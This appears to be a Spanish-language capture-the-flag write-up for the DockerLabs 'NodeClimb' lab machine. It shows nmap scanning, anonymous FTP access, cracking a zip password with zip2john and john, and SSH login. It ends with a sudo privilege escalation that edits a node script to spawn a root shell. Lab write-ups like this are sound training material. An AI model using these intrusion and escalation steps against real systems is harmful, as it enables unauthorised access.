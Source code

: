 ```yaml
---
title: DockerLabs - NodeClimb
author: elcybercurioso
date: 2025-10-26 13:00
categories: [Post, DockerLabs]
tags: [fácil, ftp, ssh, john, zip2john]
media_subpath: "/assets/img/posts/dockerlabs_nodeclimb"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 12:31 GMT
Initiating ARP Ping Scan at 12:31
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:31, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:31
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:31, 10.22s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.51 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ nmap -sCV -p21,22 172.17.0.2                                  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-26 12:32 GMT
Nmap scan report for 172.17.0.2
Host is up (0.000072s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.31 seconds
```

## explotación

Del escaneo de puertos encontramos que podemos conectarnos de manera anónima al servidor FTP con el usuario `anonymous`, y sin indicar contraseña:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.3)
Name (172.17.0.2:elcybercurioso): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
```

Dentro del servidor FTP, hay un comprimido .zip que podemos descargarnos para echarle un vistazo:

```bash
ftp> get secretitopicaron.zip
local: secretitopicaron.zip remote: secretitopicaron.zip
229 Entering Extended Passive Mode (|||10628|)
150 Opening BINARY mode data connection for secretitopicaron.zip (242 bytes).
100% |******************************************************************************************************************************************************|   242        1.22 MiB/s    00:00 ETA
226 Transfer complete.
242 bytes received in 00:00 (169.16 KiB/s)
```

Tratamos de abrirlo para descomprimir su contenido, pero vemos que nos pida una contraseña para poder hacerlo:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ 7z x secretitopicaron.zip 

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=en_GB.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 242 bytes (1 KiB)

Extracting archive: secretitopicaron.zip
--
Path = secretitopicaron.zip
Type = zip
Physical Size = 242

    
Enter password (will not be echoed):
ERROR: Wrong password : password.txt
                   
Sub items Errors: 1

Archives with Errors: 1

Sub items Errors: 1
```

Podemos obtener el hash del comprimido .zip para sacar la contraseña por fuerza bruta. Para ello emplearemos la herramienta `zip2john`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ zip2john secretitopicaron.zip > hash
ver 1.0 efh 5455 efh 7875 secretitopicaron.zip/password.txt PKZIP Encr: 2b chk, TS_chk, cmplen=52, decmplen=40, crc=59D5D024 ts=4C03 cs=4c03 type=0
```

Teniendo el hash, sacamos la contraseña con `john`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ john -w=/usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
p********        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-10-26 12:40) 20.00g/s 327680p/s 327680c/s 327680C/s 123456..xaxaxa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Volvemos a abrir el comprimido, pero ahora indicamos la contraseña obtenida:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ 7z x secretitopicaron.zip                                                                    

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=en_GB.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 242 bytes (1 KiB)

Extracting archive: secretitopicaron.zip
--
Path = secretitopicaron.zip
Type = zip
Physical Size = 242

    
Would you like to replace the existing file:
  Path:     ./password.txt
  Size:     0 bytes
  Modified: 2024-07-05 09:32:05
with the file from archive:
  Path:     password.txt
  Size:     40 bytes (1 KiB)
  Modified: 2024-07-05 09:32:05
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? Y

                   
Enter password (will not be echoed):
Everything is Ok

Size:       40
Compressed: 242
```

En el directorio vemos que nos ha generado un fichero llamado `password.txt`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ ls
hash  password.txt  secretitopicaron.zip
```

Dentro hay unas credenciales, las cuales resultan ser para acceder por SSH a la máquina:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Nodeclimb]
└─$ cat password.txt                                           
mario:laKon***************************
```

## escalada de privilegios

Tras acceder, vemos que los permisos SUDO del usuario permiten ejecutar con `node` el script que se encuentra en la ubicación `/home/mario/script.js`:

```bash
mario@c7c3692488dd:~$ sudo -l
Matching Defaults entries for mario on c7c3692488dd:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on c7c3692488dd:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Comprobamos que tenemos permisos para modificarlo, ya que el propietario de dicho fichero es el usuario con el que estamos logueados:

```bash
mario@c7c3692488dd:~$ ls -l 
total 0
-rw-r--r-- 1 mario mario 0 Jul  5  2024 script.js
```

En [GTFOBins](https://gtfobins.github.io/gtfobins/node/#sudo) encontramos que podemos obtener una consola invocando un cierto comando:

![Desktop View](/20251026134556.webp){: width="972" height="589" .shadow}

Modificamos el fichero con la instrucción que nos indicaban:

```bash
mario@c7c3692488dd:~$ cat script.js 
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

Al ejecutar el comando con permisos SUDO, vemos que hemos podido invocar una consola como el usuario `root`:

```bash
mario@c7c3692488dd:~$ sudo /usr/bin/node /home/mario/script.js
# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>
